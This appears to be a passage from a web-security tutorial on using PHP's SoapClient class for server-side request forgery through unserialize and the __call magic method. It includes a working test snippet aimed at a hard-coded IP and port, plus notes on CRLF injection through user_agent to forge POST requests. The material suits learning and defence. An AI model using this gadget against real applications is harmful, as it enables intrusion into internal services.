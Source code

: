 > Prerequisites for utilization
```
[1] Soap extension is required and needs to be enabled manually
[2] Need to call a non-existent method to trigger its __call() function
[3] Only http/https protocol
```

> In the `PHP-manual` type of `SOAP` is: `The SOAP extension can be used to write SOAP Servers and Clients. It supports subsets of » SOAP 1.1, » SOAP 1.2 and » WSDL 1.1 specifications.`. In fact, simply put, `SOAP` is a simple XML-based protocol that allows applications to exchange information through `HTTP`

> For example, the following code uses Tencent's open ordinary `soap` call to check whether the QQ number is online

```php
<?php
$url = "http://www.webxml.com.cn/webservices/qqOnlineWebService.asmx?wsdl";
$client = new SoapClient($url);

$params = array(
    "qqCode"=> "1448404788"
);
$result = $client->qqCheckOnline($params);
print_r($result);
?>

stdClass Object
(
    [qqCheckOnlineResult] => Y
)
```
### SSRF using the SoapClient class

> Test code:
```php
<?php
ini_set('soap.wsdl_cache_enabled',0);
ini_set('
soap.wsdl_cache_ttl',0);
$url = 'http://185.194.148.106:8888/';
$demo = new SoapClient(null,array('location'=>$url, 'uri'=>$url));
$test = unserialize(serialize($demo));
$test->H3rmesk1t(); // Call a method that does not exist in the object at will, triggering the __call method to perform ssrf
?>
```
<img src="./images/2.png" alt="">


> Under normal circumstances, the SoapClient class calls a non-existent function and calls the `__call() method and issues a request. The user_agent of the request package issued by SoapClient is completely controllable. Combined with `CRLF injection, a fully controllable POST request can be constructed, because the most critical `Content-Length` and `Content-Type` of the `user_agent` of the `GET request` is much simpler. You only need to construct the `location`. It should be noted that `SoapClient` will only issue a request without receiving a response.
